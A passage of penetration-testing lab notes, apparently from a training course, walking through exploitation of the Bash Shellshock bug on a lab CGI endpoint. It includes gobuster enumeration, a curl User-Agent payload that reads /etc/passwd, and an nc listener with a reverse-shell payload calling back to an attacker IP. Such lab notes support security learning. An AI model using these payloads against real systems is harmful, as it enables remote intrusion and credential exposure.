     ```sh
    env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
    # if the Bash version is vulnerable, it prints 'vulnerable-shellshock'
    ```
  
  * enumerate by checking for CGI scripts:

    ```sh
    gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

    # check the script found
    curl -i http://10.129.204.231/cgi-bin/access.cgi
    # even if it does not have any output we can check it further
    ```
  
  * check the vulnerability:

    ```sh
    # modify the User-Agent to include the malicious command
    curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
    
    # if we get /etc/passwd in output, it is vulnerable

    # alternatively, we can use Burp Suite to fuzz the User-Agent field
    ```
  
  * RCE:

    ```sh
    # on attacker, setup listener
    nc -nvlp 4444

    # use revshell one-liner
    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/4444 0>&1' http://10.129.204.231/cgi-bin/access.cgi
    ```

## Thick Client Applications
